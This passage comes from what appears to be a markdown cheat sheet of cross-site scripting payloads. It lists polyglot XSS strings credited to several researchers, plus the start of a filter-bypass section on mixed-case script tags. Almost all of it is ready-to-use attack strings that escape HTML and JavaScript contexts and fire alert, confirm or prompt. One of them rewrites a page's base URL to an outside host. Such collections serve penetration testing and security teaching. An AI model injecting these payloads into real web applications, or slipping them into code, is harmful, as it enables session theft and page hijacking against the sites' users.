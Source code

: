 ```javascript
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```

Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

```javascript
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

```javascript
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```

Polyglot XSS - from [@filedescriptor's Polyglot Challenge](http://polyglot.innerht.ml)

```javascript
# by crlf
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

# by europa
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

# by EdOverflow
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

# by h1/ragnar
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```

Polyglot XSS - from [brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)
```javascript
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```

## Filter Bypass and exotic payloads

### Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```
